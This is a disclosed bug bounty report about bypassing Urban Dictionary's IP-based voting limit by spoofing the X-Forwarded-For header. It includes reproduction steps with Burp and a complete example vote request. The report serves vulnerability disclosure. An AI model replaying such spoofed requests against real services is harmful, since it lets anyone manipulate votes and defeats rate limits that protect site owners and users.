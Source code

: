 # Bypass voting restriction due to HTTP Header Injection

## Report Details
- **Report ID**: 812907
- **URL**: https://hackerone.com/reports/812907
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-07T20:10:33.062Z
- **Disclosed**: 2020-07-08T20:15:20.091Z

## Reporter
- **Username**: schirgel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: urbandictionary

## Vulnerability Information
It is possible to bypass the voting restriction by adding a specially crafted HTTP-Header.  The underlying algorithm uses the ip address to restirct the voting of a user. However, by manipulating the IP-Adress via adding the HTTP-Header "X-Forwarded-For" it is possible to vote a entry up or down without any restrictions. 

Steps to reproduce:

1. Open a dictionary entry. 
2. Intercept the request of voting the dictionary entry up.
3. Send the request to repeater of intruder and add the "X-Forwarded-For <Arbitrary IP>" with an arbitrary ip.

It is possible to use the Burp intruder or write a python script to vote a entry up as ofter you like.

Example request:

```
POST /v0/vote HTTP/1.1
Host: api.urbandictionary.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Forwarded-For: 12.34.56.79
Content-Type: application/json; charset=utf-8
Content-Length: 35
Origin: https://hacker.com
Connection: close
Cookie: _ga=GA1.2.47064909.1583578169; _gid=GA1.2.1544677998.1583578169; _urbandictionary_session2=b356ceb8c5a73a51d46eb41ade3e16bc; __qca=P0-734169870-1583578169821; __gads=ID=22f39fd8c45fa19c:T=1583578173:S=ALNI_MbuqBUhxnFp6bo_iuHQWJAXpAwZww

{"defid":12559865,"direction":"up"}
````

## Impact

An attacker or normal user can vote a entry up unlimited times.

## Attachments
No attachments
